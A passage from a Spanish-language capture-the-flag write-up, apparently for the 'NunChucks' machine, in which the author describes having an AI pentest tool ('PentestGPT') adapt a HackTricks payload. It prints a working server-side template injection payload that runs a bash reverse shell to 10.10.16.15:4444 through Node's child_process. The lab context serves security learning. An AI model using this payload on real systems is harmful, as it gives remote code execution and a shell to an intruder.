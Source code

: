![](/assets/img/NunChucks/image_15.png)

Ahora vamos a establecernos unas `reverse shell` a nuestro equipo, le he pedido a `PentestGPT` que me `adapte` el `payload` para establecerme una `reverse shell` que se encuentra en la página de `hacktricks`

{% raw %}
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.16.15/4444 0>&1\\\"')\")()}}
```
{% endraw %}

![](/assets/img/NunChucks/image_16.png)
